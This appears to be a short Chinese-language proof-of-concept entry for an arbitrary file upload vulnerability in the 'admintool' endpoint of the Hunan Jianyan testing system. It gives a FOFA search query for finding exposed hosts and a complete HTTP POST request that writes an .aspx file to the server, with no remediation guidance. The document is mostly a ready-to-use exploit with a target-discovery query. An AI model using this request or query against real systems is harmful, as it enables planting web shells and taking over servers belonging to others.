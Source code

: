 ## 湖南建研-检测系统 admintool 任意文件上传


## fofa
```
body="/Content/Theme/Standard/webSite/login.css"
```

## poc
```
POST /Scripts/admintool?type=updatefile HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36
Content-Length: 41
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate, br

filePath=dmvckiil.aspx&fileContent=123123
```
![7c62372ac4c93cda2a5dbc1ab4b5a986](../../images/c36d1b3f-f839-40c3-a6ab-23669a0b89dd.png)

![940cc53a8930c36235859b455f3983ca](../../images/097b6b6f-1cde-4aad-96f7-7e70a0f6bbe0.png)
